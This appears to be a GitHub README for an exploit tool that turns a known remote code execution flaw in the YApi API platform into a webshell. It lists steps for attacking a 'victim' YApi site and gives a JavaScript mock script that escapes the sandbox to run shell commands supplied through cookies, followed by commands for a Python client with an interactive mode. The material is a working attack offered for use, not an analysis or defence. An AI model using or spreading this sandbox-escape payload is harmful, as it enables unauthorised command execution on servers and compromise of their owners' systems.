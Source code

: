 # yapi-rce-webshell
Yapi mock script RCE another version. Webshell way.

https://github.com/YMFE/yapi/issues/2099

# funny things 

usage:

1. victim yapi website
2. register account
3. craete project and create api in it
4. create mock script like 
```js
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const myfun = FunctionConstructor('return process')
const process = myfun()
mockJson = process.mainModule.require("child_process").execSync("cd "+cookie.dir+";"+cookie.cmd).toString()
// you can also add exec function to do some async jobs like running enum scripts
```
5.  use python script to connect webshell and interactive

```bash
python3 webshell.py {mock address like: } -i # interactive mode
# or
python3 webshell.py {mock address like: } {cmd dir,you can use "."} {command location}
```

